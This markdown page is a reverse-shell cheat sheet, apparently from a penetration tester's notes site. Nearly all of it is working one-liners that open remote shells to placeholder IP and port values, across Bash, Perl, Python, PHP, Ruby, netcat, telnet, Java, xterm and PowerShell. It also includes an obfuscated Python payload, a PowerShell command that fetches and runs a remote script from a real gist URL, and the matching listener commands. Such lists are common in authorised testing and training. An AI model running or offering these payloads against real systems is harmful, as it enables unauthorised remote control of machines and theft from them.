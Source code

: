 ```yaml
---
layout: default
title: reverse shells
tags:
    - bash
    - java
    - netcat
    - nc
    - perl
    - php
    - python
    - ruby
    - telnet
    - xterm
---
```

# reverse shells

### Linux
**Bash**

```shell
bash -i >& /dev/tcp/[IP]/[PORT] 0>&1
```

```shell
0<&196;exec 196<>/dev/tcp/[IP]/[PORT]; sh <&196 >&196 2>&19
```

```shell
exec 5<>/dev/tcp/[IP]/[PORT]
while read line 0<&5; do $line 2>&5 >&5; done
```

```shell
exec 5<>/dev/tcp/[IP]/[PORT]; cat <&5 | while read line; do $line 2>&5 >&5; done
```

```shell
sh -i >& /dev/udp/[IP]/[PORT] 0>&1
```
- UDP, use `-u` flag with nc for catching locally

**Perl**

```shell
perl -e 'use Socket;$i="[IP]";$p=[PORT];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

```shell
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"[IP]:[PORT]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
- no `/bin/sh`

**Python**

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[IP]",[PORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**PHP**

```shell
php -r '$sock=fsockopen("[IP]",[PORT]);exec("/bin/sh -i <&3 >&3 2>&3");'
```

**Ruby**

```shell
ruby -rsocket -e'f=TCPSocket.open("[IP]",[PORT]).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

```shell
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
- no `/bin/sh`

**Netcat**

```shell
nc -e /bin/sh [IP] [PORT]
```

```shell
/bin/sh | nc [IP] [PORT]
```

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP] [PORT] >/tmp/f
```
- no `-e` flag

**Telnet**

```shell
rm -f /tmp/p; mknod /tmp/p p && telnet [IP] [PORT] 0/tmp/p
```

```shell
telnet [IP] [PORT1] | /bin/bash | telnet [IP] [PORT2]
```
- listen locally on [PORT2]

**Java**

```java
r = Runtime.getRuntime();
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/[IP]/[PORT];cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]);
p.waitFor();
```

**xterm**

```shell
xterm -display [IP]:1
```
- port 6001
- Locally, to catch the incoming session on port 6001 `Xnest :1`
- Locally, to authorise the target's connection `xhost +[TARGETIP]`

---

### Windows
**Perl**

```powershell
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"[IP]:[PORT]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

**Powershell**

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("[IP]",[PORT]);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('[IP]',[PORT]);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```
- [staged](https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1)

**Python**

```powershell
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('[IP]', [PORT])), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

**Ruby**

```powershell
ruby -rsocket -e 'c=TCPSocket.new("[IP]","[PORT]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
---

### Catching Shells
**Metasploit**

```shell
use exploit/multi/handler
```

**Netcat**

```shell
nc -lvnp [PORT]
```
- can use `-vv`/`-vvv` to debug with extra verbosity

### Useful links:
- <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>
- <http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html>
- <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md>
